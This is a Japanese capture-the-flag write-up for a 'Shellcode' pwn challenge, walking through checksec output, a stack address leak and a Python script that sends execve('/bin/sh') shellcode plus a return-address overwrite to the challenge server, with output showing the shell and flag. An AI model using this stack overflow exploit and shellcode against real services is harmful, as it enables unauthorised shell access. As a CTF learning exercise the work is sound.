

# Shellcode:Pwn:300pts
添付されたファイルを解析し、以下にアクセスしてフラグを入手してください。  
`nc 10.1.1.10 13050`  
この設問では Linux ターミナルを使用します。  
[https://ctf.setodanote.net/webshell/](https://ctf.setodanote.net/webshell/)  
[shellcode_81ee2bc92a8806e81ee43f4f0b025b819f31a113.zip](shellcode_81ee2bc92a8806e81ee43f4f0b025b819f31a113.zip)  

# Solution
実行ファイルが配られる。  
まず初めにセキュリティ機構をチェックすると以下のようであった。  
```bash
$ checksec --file=shellcode
[*] '/shellcode'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
`NX disabled`なのでスタックのシェルコードを利用すると考えられるが、`PIE enabled`なので各アドレスがわからない。  
実行すると以下のようであった。  
```bash
$ ./shellcode
       |
target | [0x7ffee4820160]
       |
Well. Ready for the shellcode?
> flag
flag
$ python -c "print('A'*100)" | ./shellcode
       |
target | [0x7fff661e3ee0]
       |
Well. Ready for the shellcode?
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```
謎のアドレスを表示してくれている(BOFもある)。  
gdbでこのアドレスを調査する。  
おそらくスタックのトップだと予測し、printf後に各アドレスを見る。  
  
予想通りスタックのトップのようだ。  
ここから、シェルコードをスタックにのせた後にBOFを使いリターンアドレスを表示されたアドレスに飛ばせばよいとわかる。  
指定されたターミナルではpwntoolsが入っていないので、頑張って以下のようにpythonを書く。  
シェルコードは[x64でスタックバッファオーバーフローをやってみる - ももいろテクノロジー](https://inaz2.hatenablog.com/entry/2014/07/04/001851)よりお借りした。  
```python:exploit.py
import re
import sys
import socket

c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
c.connect(("10.1.1.10", 13050))
c.settimeout(1)

leak = b"[0x000000000000] ;("
try:
    leak = c.recv(256) + c.recv(256) + c.recv(256)
except:
    pass
leak = "0000" + re.search("\[0x(.*)\]", leak.decode()).group(1)
print(leak)

payload = b"\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x8d\x42\x3b\x0f\x05"
payload += b"A"*(88-len(payload)) + bytes.fromhex(leak)[::-1] + b"\n"
c.send(payload)
print(payload)

_ = c.recv(256)

c.send(f"{sys.argv[1]};ls\n".encode())
print(c.recv(512).decode())
```
以下のように実行するとシェルが取れるので、flagを探す。  
たまに、socket通信に失敗するのはご愛嬌。  
```bash
user@1aff9737a923:~$ python3 exploit.py ls
00007ffc12002bb0
b'H1\xd2RH\xb8/bin//shPH\x89\xe7RWH\x89\xe6H\x8dB;\x0f\x05AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb0+\x00\x12\xfc\x7f\x00\x00\n'
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

user@1aff9737a923:~$ python3 exploit.py "cd /home"
00007fff44d23f40
b'H1\xd2RH\xb8/bin//shPH\x89\xe7RWH\x89\xe6H\x8dB;\x0f\x05AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@?\xd2D\xff\x7f\x00\x00\n'
user

user@1aff9737a923:~$ python3 exploit.py "cd /home/user"
00007ffebdfb1230
b'H1\xd2RH\xb8/bin//shPH\x89\xe7RWH\x89\xe6H\x8dB;\x0f\x05AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0\x12\xfb\xbd\xfe\x7f\x00\x00\n'
flag
shellcode

user@1aff9737a923:~$ python3 exploit.py "cat /home/user/flag"
00007fff45b73fc0
b'H1\xd2RH\xb8/bin//shPH\x89\xe7RWH\x89\xe6H\x8dB;\x0f\x05AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc0?\xb7E\xff\x7f\x00\x00\n'
flag{It_is_our_ch0ices_that_show_what_w3_truly_are_far_m0re_thAn_our_abi1ities}

```
flagが得られた(チームメンバーが先に解いていた)。  

## flag{It_is_our_ch0ices_that_show_what_w3_truly_are_far_m0re_thAn_our_abi1ities}